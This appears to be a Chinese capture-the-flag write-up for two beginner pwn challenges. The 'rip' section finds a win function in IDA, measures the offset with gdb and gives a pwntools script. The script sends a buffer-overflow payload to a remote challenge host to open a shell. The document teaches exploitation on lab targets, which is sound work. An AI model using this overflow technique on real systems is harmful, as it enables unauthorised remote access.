









#### test_your_nc

- 根据题目提示，直接使用nc远程连接到题目地址即可。

  ```bash
  nc node3.buuoj.cn 26446
  ls
  bin
  boot
  dev
  etc
  flag
  home
  lib
  lib32
  lib64
  media
  mnt
  opt
  proc
  pwn
  root
  run
  sbin
  srv
  sys
  tmp
  usr
  var
  cat flag
  flag{2a0ecb02-9cdd-4b66-aea0-a11e215b0d0b}
  ```

#### rip

- shiy

  

- 查看文件类型。这是一个64bit 小端序的可执行文件

  

- 使用 `IDA Pro` (64位)加载该文件函数等信息。

  - 查看main()函数，按F5进行反汇编。

    

  - 函数窗口处发现了一个fun()函数。调用了system函数，并且参数是`bin/sh`，所以尝试利用缓冲区溢出执行`fun()`函数获得shell权限

    

  - 查看fun()函数地址：0x401186

    

- 使用gdb进行调试，计算偏移量。

  

  

  

  - 可以看到rbp的值为`nAACAA-A`，是输入字符串偏移的15。

- 构造exp

  ```python
  from pwn import *
  sh=remote('node3.buuoj.cn', 28380)
  payload='A'*15 + p64(0x401186)
  sh.sendline(payload)
  sh.interactive()
  ```

- 运行脚本，即得flag。

  